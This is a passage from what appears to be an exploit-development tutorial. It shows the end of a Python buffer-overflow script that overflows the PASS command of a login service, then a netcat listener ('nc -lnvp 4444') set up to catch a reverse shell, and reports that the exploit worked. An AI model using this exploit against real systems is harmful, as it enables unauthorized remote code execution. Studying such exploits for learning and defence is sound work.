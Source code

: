 # Send USER command with Username x41
s.send(b'USER x41\r\n')
data = s.recv(1024)
print(data)

# Send PASS command with our buffer
s.send(b'PASS ' + buffer + b'\r\n')
data = s.recv(1024)
print(data)

# Close connection
s.close()
{{< / highlight >}}

Before we run the "exploit" we start a "nc listener" to receive the "reverse-shell".

`nc -lnvp 4444`

Now we run the "exploit":

![exploit-success](exploit-success.png)

And it worked! :)

In the next screenshot you can see how the "stack" and "registers" look like just one step before we jump into our `NOP`s.
